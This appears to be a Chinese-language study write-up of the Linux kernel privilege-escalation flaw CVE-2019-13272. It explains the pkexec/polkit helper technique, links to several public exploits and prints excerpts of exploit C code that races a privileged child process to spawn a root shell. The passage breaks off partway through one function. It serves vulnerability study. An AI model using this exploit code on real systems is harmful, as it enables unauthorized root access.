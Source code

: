 [pkexec](http://manpages.ubuntu.com/manpages/trusty/man1/pkexec.1.html) 允许特权用户以其他用户权限执行另外一个可执行程序， 用于 [polkit](https://wiki.archlinux.org/index.php/Polkit) 认证框架, 当使用 --user 参数时， 刚好可以让进程先提权到  root 然后再降权到指定用户，因此可以用于构建进程 B, 此外需要找到通过 polkit 框架执行的可执行程序(jann horn 把他们成为 helper)， 这些 helper 程序需要满足普通用户用 pkexec 执行它们时不需要认证（很多通过 polkit 执行的程序都需要弹窗认证）, 执行的模式如下:

- /usr/bin/pkexec --user nonrootuser /user/sbin/some-helper-binary

[bcoles 的 exploit](https://github.com/bcoles/kernel-exploits/blob/master/CVE-2019-13272/poc.c) 在 jann horn 的基础上增加了寻找更多 helper binary 的代码， 因为 jann horn 的 helper 是一个写死的程序， 在很多发行版并不存在，所以他的 exploit 在很多发行版系统上无法运行， bcoles 的 exploit 可以在更多的发行版上运行成功

本人出于学习的目的，也写了一份 [jiayy 的 exploit](https://github.com/jiayy/android_vuln_poc-exp/tree/master/EXP-CVE-2019-13272), 因为 helper binary 因不同发行版而异， pkexec 也是桌面发行版才有， 而事实上这个提权漏洞是 linux kernel 的漏洞， 所以我把 jann horn 的 exploit 改成了使用一个 fakepkexec 程序来提权， 而这个 fakepkexec 和 fakehelper 程序手动生成（而不是从目标系统搜索），这样一来学习者可以在任何存在本漏洞的 linux 系统（不需要桌面）运行我的 exploit 进行研究

下面简单过一下 exploit 的代码

```c

167 int main(int argc, char **argv) {
168   if (strcmp(argv[0], "stage2") == 0)
169     return middle_stage2();
170   if (strcmp(argv[0], "stage3") == 0)
171     return spawn_shell();
172 
173   helper_path = "/tmp/fakehelper";
174 
175   /*
176    * set up a pipe such that the next write to it will block: packet mode,
177    * limited to one packet
178    */
179   SAFE(pipe2(block_pipe, O_CLOEXEC|O_DIRECT));
180   SAFE(fcntl(block_pipe[0], F_SETPIPE_SZ, 0x1000));
181   char dummy = 0;
182   SAFE(write(block_pipe[1], &dummy, 1));
183 
184   /* spawn pkexec in a child, and continue here once our child is in execve() */
185   static char middle_stack[1024*1024];
186   pid_t midpid = SAFE(clone(middle_main, middle_stack+sizeof(middle_stack),
187                             CLONE_VM|CLONE_VFORK|SIGCHLD, NULL));
188   if (!middle_success) return 1;
189 
======================= skip =======================
215 }

```

先看行 186, 调用 clone 生成子进程（也就是 task B）, task B 运行 middle_main 

```c
 64 static int middle_main(void *dummy) {
 65   prctl(PR_SET_PDEATHSIG, SIGKILL);
 66   pid_t middle = getpid();
 67 
 68   self_fd = SAFE(open("/proc/self/exe", O_RDONLY));
 69 
 70   pid_t child = SAFE(fork());
 71   if (child == 0) {
 72     prctl(PR_SET_PDEATHSIG, SIGKILL);
 73 
 74     SAFE(dup2(self_fd, 42));
 75 
 76     /* spin until our parent becomes privileged (have to be fast here) */
 77     int proc_fd = SAFE(open(tprintf("/proc/%d/status", middle), O_RDONLY));
 78     char *needle = tprintf("\nUid:\t%d\t0\t", getuid());
 79     while (1) {
```